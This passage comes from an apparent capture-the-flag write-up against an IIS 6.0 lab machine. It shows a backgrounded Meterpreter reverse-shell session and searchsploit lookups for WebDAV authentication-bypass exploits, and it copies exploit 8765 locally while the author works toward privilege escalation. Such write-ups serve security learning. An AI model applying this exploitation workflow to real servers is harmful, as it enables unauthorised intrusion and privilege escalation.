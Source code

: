 Now with the service account, I need to elevate my privileges. This proved time consuming so I backgrounding this session and am trying the next exploit, one from the searchsploit results:

<pre><code><strong>(Meterpreter 1)(c:\windows\system32\inetsrv) > background
</strong>[*] Backgrounding session 1...
[msf](Jobs:0 Agents:1) exploit(windows/iis/iis_webdav_scstoragepathfromurl) >> sessions

Active sessions
===============

  Id  Name  Type                     Information  Connection
  --  ----  ----                     -----------  ----------
  1         meterpreter x86/windows               10.10.14.16:4444 -> 10.10.10.15:1030 (10.10.10.15)

--------------------------------------------------------

Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass                                                             | windows/remote/8765.php
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (1)                                                         | windows/remote/8704.txt
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (2)                                                         | windows/remote/8806.pl
Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass (Patch)                                                     | windows/remote/8754.patch
Microsoft IIS 6.0/7.5 (+ PHP) - Multiple Vulnerabilities                                                            | windows/remote/19033.txt
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
-[Thu Feb 01-16:36:43]-[table@parrot]-
-[~]$ searchsploit -p 8765
  Exploit: Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass
      URL: https://www.exploit-db.com/exploits/8765
     Path: /usr/share/exploitdb/exploits/windows/remote/8765.php
    Codes: N/A
 Verified: True
File Type: PHP script, ASCII text
Copied EDB-ID #8765's path to the clipboard
-[Thu Feb 01-16:36:49]-[table@parrot]-
-[~]$ searchsploit -m 8765
  Exploit: Microsoft IIS 6.0 - WebDAV Remote Authentication Bypass
      URL: https://www.exploit-db.com/exploits/8765
     Path: /usr/share/exploitdb/exploits/windows/remote/8765.php
    Codes: N/A
 Verified: True
File Type: PHP script, ASCII text
Copied to: /home/table/8765.php

</code></pre>

I lacked an understanding of what to do next so I returned the msfconsole to search for IIS6 exploits and began to follow a Bypass Auth exploit, which should get me into the Administrator and Lakis folders that I previously did not have access to

